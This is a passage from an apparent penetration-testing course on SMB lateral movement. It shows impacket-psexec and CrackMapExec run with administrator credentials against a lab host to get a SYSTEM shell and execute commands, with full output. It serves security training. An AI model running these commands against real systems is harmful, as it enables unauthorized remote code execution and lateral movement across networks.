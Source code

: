 To connect to a remote machine with a local administrator account, using `impacket-psexec`, you can use the following command:

```shell-session
al1abb@htb[/htb]$ impacket-psexec administrator:'Password123!'@10.10.110.17

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.110.17.....
[*] Found writable share ADMIN$
[*] Uploading file EHtJXgng.exe
[*] Opening SVCManager on 10.10.110.17.....
[*] Creating service nbAc on 10.10.110.17.....
[*] Starting service nbAc.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19041.1415]
(c) Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami && hostname

nt authority\system
WIN7BOX
```

The same options apply to `impacket-smbexec` and `impacket-atexec`.

### **CrackMapExec**

Another tool we can use to run CMD or PowerShell is `CrackMapExec`. One advantage of `CrackMapExec` is the availability to run a command on multiples host at a time. To use it, we need to specify the protocol, `smb`, the IP address or IP address range, the option `-u` for username, and `-p` for the password, and the option `-x` to run cmd commands or uppercase `-X` to run PowerShell commands.

```shell-session
al1abb@htb[/htb]$ crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec

SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 19041 (name:WIN7BOX) (domain:.) (signing:False) (SMBv1:False)
SMB         10.10.110.17 445    WIN7BOX  [+] .\Administrator:Password123! (Pwn3d!)
SMB         10.10.110.17 445    WIN7BOX  [+] Executed command via smbexec
SMB         10.10.110.17 445    WIN7BOX  nt authority\system
```

{% hint style="info" %}
**Note:** If the`--exec-method` is not defined, CrackMapExec will try to execute the atexec method, if it fails you can try to specify the `--exec-method` smbexec.
{% endhint %}

### **Enumerating Logged-on Users**

Imagine we are in a network with multiple machines. Some of them share the same local administrator account. In this case, we could use `CrackMapExec` to enumerate logged-on users on all machines within the same network `10.10.110.17/24`, which speeds up our enumeration process.
